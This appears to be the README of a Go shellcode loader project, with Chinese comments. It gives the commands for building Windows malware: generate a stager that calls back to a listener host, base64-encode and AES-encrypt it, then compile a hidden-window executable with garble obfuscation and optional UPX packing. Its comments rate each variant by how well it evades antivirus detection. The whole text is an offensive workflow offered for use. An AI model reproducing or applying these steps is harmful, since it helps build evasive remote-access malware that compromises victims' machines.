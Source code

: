 # goShellCode

//生成shellcode

generate stager --lhost HOST --lport 8443 --arch amd64 --format raw --save ./raw_shellcode

base64 -w 0 -i raw_shellcode > stager.bs64

go run aes.go

//免杀效果拉跨

garble -literals -tiny -seed=random build -ldflags="-w -s -H windowsgui" ./main.go

//免杀效果好 

go build -ldflags="-w -s -H windowsgui" ./main.go

//压缩,upx压缩之后容易被查杀

upx.exe -9 -q -o zip.exe main.exe


## build.bat
拷贝stager.bs64中的内容到aes/base64Code.txt
然后执行bat，生成main.exe，免杀效果还行
